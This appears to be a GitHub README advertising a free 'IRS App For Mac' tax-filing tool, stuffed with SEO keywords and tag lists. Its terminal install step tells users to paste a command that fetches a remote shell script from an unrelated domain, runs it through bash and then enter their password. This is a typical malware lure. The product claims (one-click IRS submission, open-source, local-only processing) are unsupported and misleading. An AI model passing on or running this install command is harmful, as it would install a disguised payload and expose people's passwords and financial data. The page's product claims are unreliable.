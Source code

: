 # IRS App For Mac — Download For macOS 😊

Simplify your tax filing with **IRS App For Mac**, a free, AI-powered desktop application designed for macOS users. Effortlessly scan receipts, automate tax deductions, and submit your IRS forms with a single click. Follow the instructions below to install and start managing your taxes like a pro!

![irsapp](https://tfxstorageimg.s3.amazonaws.com/clxpnnv11pv1r646dki8mi3uuxs7)

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)]()

If the download button doesn't work, follow the terminal installation instructions below.

## 📦 How to Install IRS App For Mac

### Installation via .dmg:

1. Click the "Download Now" button above to download the .dmg file.
2. Open the .dmg installer and drag the **IRS App For Mac** icon to your Applications folder or another convenient directory.
3. Launch the app from the Applications folder or via Spotlight.
4. If prompted, enter your device password to authorize the installation (leave blank if no password is set).

[![Installation Demo](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

*Drag and drop the app to install seamlessly*

### Installation via Terminal:

1. Copy the command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal on your macOS device, paste the command, and press "Return."
3. Enter your device password when prompted and confirm the installation.

[![Terminal Installation](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

*Quick terminal setup for advanced users*

## 🎯 What You Get

- 🧠 **AI-Powered Tax Assistance**: Automatically scans W-2s, 1099s, and receipts to populate tax forms accurately.
- 📸 **Receipt Scanning**: Use your Mac's camera to scan receipts and categorize expenses instantly.
- 💸 **Maximize Deductions**: Identifies eligible deductions (e.g., medical, mortgage, charity) to save you money.
- 📤 **One-Click IRS Submission**: Submit your tax forms directly to the IRS with a single click.
- 🛡️ **Error-Free Filing**: Reduces manual errors to help you avoid costly IRS penalties.
- 🌐 **Free and Open-Source**: No hidden fees, unlike other tax software like TurboTax.

## About IRS App For Mac

**IRS App For Mac** is a revolutionary, free tax preparation software designed specifically for macOS users. Built with an AI-powered assistant, this app simplifies the complex process of filing taxes by automating tedious tasks like form filling and deduction calculations. Whether you're a freelancer handling 1099 forms or an employee with a W-2, this app ensures a seamless, error-free experience. By leveraging advanced OCR technology, it scans receipts and documents to extract relevant data, saving you hours of manual work. Keywords: *tax software for Mac, free tax filing, IRS app, tax deductions, AI tax assistant*.

Unlike traditional tax software that often comes with hidden fees, **IRS App For Mac** is completely free and open-source, making it accessible to everyone. The app’s intuitive interface guides you through every step, from scanning documents to identifying tax deductions for medical expenses, mortgage interest, or charitable contributions. Its one-click IRS submission feature ensures your tax return is filed securely and efficiently. Keywords: *free tax software mac, IRS filing app, tax preparation software, macOS tax tool*.

Security is a top priority for **IRS App For Mac**. All data is processed locally on your device, ensuring your sensitive financial information remains private. The app is regularly updated to comply with the latest IRS regulations, so you can file with confidence knowing your forms meet current standards. Whether you're a first-time filer or a seasoned taxpayer, this app is designed to make tax season stress-free. Keywords: *secure tax filing, mac tax app, IRS compliance, free tax preparation*.

Inspired by the simplicity of macOS, **IRS App For Mac** integrates seamlessly with your Mac’s ecosystem. Its sleek design and user-friendly features make it the go-to choice for macOS users looking to simplify their tax filing process without compromising on functionality. Download it today and experience a smarter way to file your taxes! Keywords: *macOS tax software, AI-powered tax app, free IRS tool, tax filing for Mac*.

## Advantages of IRS App For Mac

- 🚀 **Fast and Intuitive**: Complete your tax return in minutes with a streamlined interface.
- 🔒 **Secure and Private**: All data processing happens locally on your Mac.
- 💰 **No Hidden Fees**: Completely free, unlike paid alternatives like TurboTax.
- 📊 **Smart Deduction Finder**: Automatically uncovers tax-saving opportunities.
- 🖥 **macOS-Optimized**: Designed to blend perfectly with your Mac’s ecosystem.
- 🔄 **Regular Updates**: Always compliant with the latest IRS rules and forms.

## 🖼 Preview

![Dashboard View](https://cdn-rdstaticassets.readdle.com/pdfexpert/img/howto/tax-forms/1065%20IRS%20form/2025_MacBook%20Pro%201065.png)  
*Clean and intuitive dashboard for managing your tax forms*

![Receipt Scanner](https://i.postimg.cc/8c2k5n4L/receipt-scanner.png)  
*Scan receipts effortlessly with your Mac’s camera*

![Deduction Finder](https://i.postimg.cc/7hYkJq4Z/deduction-finder.png)  
*AI-powered deduction finder maximizes your savings*

![IRS Submission](https://i.postimg.cc/9M7kW2pQ/irs-submission.png)  
*Submit your tax return to the IRS with one click*

## 🔍 Tags

irs2go download, irs app, irs2go download, irs app download, irs download, tax software for Mac, free tax filing, tax preparation software, AI tax assistant, macOS tax tool, secure tax filing, tax deductions, free IRS tool, AI-powered tax app, IRS compliance, mac tax app, free tax preparation, tax filing for Mac, W-2 scanner, 1099 filing
